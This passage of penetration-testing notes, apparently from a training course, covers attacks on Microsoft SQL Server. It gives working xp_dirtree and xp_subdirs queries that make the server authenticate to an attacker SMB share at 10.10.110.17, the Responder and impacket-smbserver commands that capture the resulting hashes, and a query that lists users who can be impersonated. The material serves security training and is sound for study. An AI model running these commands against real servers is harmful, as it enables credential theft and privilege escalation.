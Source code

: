To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

#### XP_DIRTREE Hash Stealing

```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
```

#### XP_SUBDIRS Hash Stealing

```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

#### XP_SUBDIRS Hash Stealing with Responder

```shell-session
sudo responder -I tun0
```

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

---

## Impersonate Existing Users with MSSQL

#### Identify Users that We Can Impersonate

```cmd-session
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO
```

#### Verifying our Current User and Role

```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```
